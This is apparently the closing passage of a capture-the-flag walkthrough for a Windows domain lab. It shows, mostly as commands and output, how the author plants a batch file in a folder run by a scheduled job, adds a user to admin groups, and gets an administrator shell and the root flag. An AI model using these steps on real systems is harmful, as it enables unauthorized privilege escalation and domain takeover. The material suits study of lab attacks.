```python
evil-winrm-py PS C:\Temp> Invoke-Command -ComputerName ATSSERVER -ScriptBlock {ls "C:\Program Files\keepmeon"} -Credential $cred -ConfigurationName dc_manage


    Directory: C:\Program Files\keepmeon


Mode                 LastWriteTime         Length Name                                PSComputerName                    
----                 -------------         ------ ----                                --------------                    
-a----        12/21/2021   2:57 PM            128 keepmeon.bat                        ATSSERVER                         


evil-winrm-py PS C:\Temp> Invoke-Command -ComputerName ATSSERVER -ScriptBlock {cat "C:\Program Files\keepmeon\keepmeon.bat"} -Credential $cred -ConfigurationName dc_manage
REM This is run every 5 minutes. For Lois use ONLY
@echo off
 for /R %%x in (*.bat) do (
 if not "%%x" == "%~0" call "%%x"
)
evil-winrm-py PS C:\Temp>
```

There is an interesting script in program files

> This script is a Windows batch file designed to recursively find and run every other batch file (.bat) within its current folder and all subfolders, except for itself.

So if i create my own batch file in the same dir it will run

```python
evil-winrm-py PS C:\Temp> Invoke-Command -ComputerName ATSSERVER -ScriptBlock {Set-Content -Path "C:\Program Files\keepmeon\DA.bat" -Value 'net group site_admin awallace /add /domain'} -Credential $cred -ConfigurationName dc_manage
```

Ill make a batch script to add the current user to the site_admin group



This group is a member of the administrators group

After a few minutes i try auth with nxc on the user `awallace` i this user is now an admin

But this is soon reset, so ill run a command to make it more permanant

```python
❯❯❯ nxc smb atsserver.acute.local -u awallace -p 'Password@123' -k -X 'net localgroup Administrators awallace /add'
SMB         atsserver.acute.local 445    atsserver        [*]  x64 (name:atsserver) (domain:acute.local) (signing:True) (SMBv1:None) (NTLM:False)
SMB         atsserver.acute.local 445    atsserver        [+] acute.local\awallace:Password@123 (Pwn3d!)
SMB         atsserver.acute.local 445    atsserver        [+] Executed command via wmiexec
SMB         atsserver.acute.local 445    atsserver        The command completed successfully.
```

Ill add the user to the administrators group, this likely wont get reset if its added directly

```python
❯❯❯ evil-winrm-py -i atsserver.acute.local -u awallace -p 'Password@123' -k
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to 'atsserver.acute.local:5985' as 'awallace'
evil-winrm-py PS C:\Users\awallace\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
evil-winrm-py PS C:\Users\awallace\Documents>
```

Then i can login as the DA

```python
evil-winrm-py PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
-ar---       10/22/2026   4:24 PM             34 root.txt                                                               


evil-winrm-py PS C:\Users\Administrator\Desktop>
```

Then i can get the root flag
